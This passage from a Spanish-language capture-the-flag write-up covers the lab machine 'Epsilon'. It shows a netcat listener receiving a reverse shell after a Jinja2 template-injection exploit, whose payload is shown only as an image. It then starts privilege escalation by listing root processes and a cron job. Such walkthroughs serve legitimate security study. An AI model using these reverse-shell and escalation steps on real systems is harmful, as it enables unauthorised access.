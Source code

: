 ![Jinja2 - RCE](/images/epsilon/ssti.png)
Con lo anterior se tiene acceso a la máquina utilizando una reverse shell.
```SHELL
└─$ nc -lvnp 1234          
listening on [any] 1234 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.134] 45710
tom@epsilon:/var/www/app$ id
id
uid=1000(tom) gid=1000(tom) groups=1000(tom)
tom@epsilon:/var/www/app$ 
```
# Escalación de Privilegios
Al revisar los procesos que se estan ejecutando observamos que hay un cron perteneciente a root.
```SHELL
tom@epsilon:/var/www/app$ ps -aux
[...]
root         744  0.0  0.2 392412 11996 ?        Ssl  04:27   0:00 /usr/lib/udisks2/udisksd
root         861  0.0  0.1 232716  6808 ?        Ssl  04:27   0:00 /usr/lib/policykit-1/polkitd --no-debug
root         913  0.0  0.0   6812  3044 ?        Ss   04:27   0:00 /usr/sbin/cron -f
root         921  0.1  1.2 975768 50368 ?        Ssl  04:27   0:06 /usr/bin/containerd
daemon       923  0.0  0.0   3792  2436 ?        Ss   04:27   0:00 /usr/sbin/atd -f
root         941  0.0  0.0   8352  3436 ?        S    04:27   0:00 /usr/sbin/CRON -f
root         947  0.0  0.0   5828  1864 tty1     Ss+  04:27   0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
root         960  0.0  0.0   2608   612 ?        Ss   04:27   0:00 /bin/sh -c cd /var/www/app;sudo -u tom python3 app.py
root         966  0.0  0.1   9420  4580 ?        S    04:27   0:00 sudo -u tom python3 app.py
[...]
```
Entonces podemos utilizar `pspy` para poder ver los procesos conforme se van ejecutando, vemos que se ejecuta el archivo `/usr/bin/backup.sh`
